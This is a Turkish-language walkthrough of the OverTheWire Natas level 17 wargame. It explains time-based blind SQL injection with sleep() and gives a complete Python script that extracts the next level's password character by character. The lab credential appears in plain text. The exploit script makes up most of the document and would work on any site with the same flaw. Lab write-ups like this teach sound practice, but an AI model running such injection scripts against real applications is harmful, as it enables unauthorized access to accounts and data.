```php
            //echo "This user doesn't exist.<br>";
        }
        } else {
            //echo "Error in query.<br>";
        }

        mysql_close($link);
    } else {
?>
```

Bu seviyede biz ne girersek girelim bir çıktı varmiyor. Zaten php kodunu inceleyerek bunu anlayabiliriz. O zaman ne yapacağız? Sql de çalışmayı duraklatan bir fonksiyon var: `sleep()`. Bu fonksiyonu kullanarak yanıtın gelme süresine göre çıkarım yapabiliriz. Sql sorgusunu şu hale getirirsek `SELECT * FROM users WHERE username="natas18" AND sleep(5)` yanıt 5 en az 5 saniye sonra gelecek. Çünkü sunucuda sql sorgusu 5 saniye duraklatılıyor. Sorguyu biraz daha geliştirirsek: `SELECT * FROM users WHERE username="natas18" AND password LIKE BINARY "%a%" sleep(5)` şifrenin içinde a bulunması halinde cevap bize 5 saniye sonra gelecek. basit bir python scripti ile bu işlemi hemen yapabiliriz. Script aşağıda.

```python
import requests
from requests.auth import HTTPBasicAuth

allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'
filteredchars = ""
passwd = ""

# post formu olduğu için bu header gerekli
headers = {'content-type': 'application/x-www-form-urlencoded'}
Auth = HTTPBasicAuth("natas17", "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw")

for char in allchars: # karakterleri dolaş ve şifredeki karakterleri bul.
    payload = 'username=natas18" AND password LIKE BINARY "%{}%" AND sleep(2) #'.format(char) # 2 saniye bekle
    r = requests.post('http://natas17.natas.labs.overthewire.org/index.php',data=payload, auth=Auth, headers=headers)
    if (r.elapsed.seconds >= 2): # eğer cevap 2 saniyeden sonra gelirse şifrede o karakter var demektir.
        filteredchars += char # karakteri ekle
        print(filteredchars)
print("filteredchars: "+filteredchars)

for _ in range(32):
    for chr in filteredchars:
        payload = 'username=natas18" AND password LIKE BINARY "{}%" AND sleep(2) #'.format(passwd+chr)
        r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', data=payload, auth=Auth, headers=headers)
        if r.elapsed.seconds >= 2: # eğer 2 saniyeden büyükse şifreye o karakteri ekle.
            passwd += chr
            print(passwd)
            break  # gereksiz deneme yapmaktan kurtarır.
print("password: "+passwd)
```
